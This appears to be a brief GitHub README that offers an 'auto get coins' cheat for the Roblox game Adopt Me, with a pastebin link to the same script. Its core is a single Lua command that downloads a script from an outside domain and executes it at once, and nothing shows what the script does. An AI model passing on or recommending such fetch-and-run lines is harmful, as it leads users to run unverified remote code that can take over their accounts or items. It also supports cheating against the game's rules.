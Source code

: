 # ADOPT-ME-OCEAN-EVENT-AUTO-GET-COINS
loadstring(game:HttpGet("https://egorikusa.space/1af91b8f8e3ad08f317cf46a.lua", true))()

# ADOPT-ME-OCEAN-EVENT-AUTO-GET-COINS
# PS THIS PASTEBIN LINK IS ALSO THE LINK IN TOP I JUST PUT THIS IN HERE FOR PEOPLE WHO DIDNT GET SCRIPT UPPER THIS TEXT!
https://pastebin.com/5ZvaP7v2
